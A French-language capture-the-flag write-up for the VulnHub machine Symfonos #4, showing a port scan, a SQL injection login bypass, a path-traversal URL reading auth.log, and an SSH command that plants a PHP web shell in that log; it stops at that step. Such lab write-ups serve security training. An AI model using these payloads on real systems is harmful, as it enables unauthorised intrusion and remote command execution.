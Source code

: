 ```yaml
---
title: "Solution du CTF Symfonos #4 de VulnHub"
tags: [CTF, VulnHub]
---
```


Jamais 3 sans 4 avec [cet autre CTF](https://vulnhub.com/entry/symfonos-4,347/).

```
Nmap scan report for 192.168.56.115
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9c17395a417dff6ed5c8e8ac805f98f (RSA)
|   256 bec1fdf13364399a683564f9bd27ec01 (ECDSA)
|_  256 66f76ae8edd51d2d36326439384f9c8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

Comme pour le précédent il faut énumérer un moment le serveur web avant de trouver quelque chose d'intéressant.

Un premier lieu je trouve un dossier `/gods` contenant trois fichiers à l'extension `.log` nommés après les dieux `hades`, `poseidon` et `zeus`.

Dans un second temps je trouve un fichier `sea.php` qui redirige vers une mire de login `atlantis.php`.

La mire de login en question est bypassable car on parvient à une zone authentifiée si on saisit le nom d'utilisateur `' OR '1'=1`.

On a alors un champ `select` dont les valeurs correspondent aux noms de dieux précédents et la sélection de l'une des entrées affiche le fichier de log correspondant. On est donc sur une faille de directory traversal ou même d'inclusion PHP.

Le script ajoute donc de lui même le préfixe `.log` qui ne semble pas bypassable avec un null byte (`%00` à l'ancienne) et l'inclusion distante n'est pas activée (donc on ne peut pas passer un préfixe `http://` ou ftp://).

## I am payload

Aïe, aïe, aïe il semble qu'on est condamné à inclure un fichier avec l'extension `.log`. Heureusement l'auteur du CTF a pensé à nous car `/var/log/auth.log` est accessible :

http://192.168.56.115/sea.php?file=../../../../var/log/auth

Pour injecter notre code PHP dans ce fichier de log on va se connecter via SSH avec un compte invalide :

```bash
ssh -l '<?php system($_GET[chr(99)]); ?>' 192.168.56.115
```
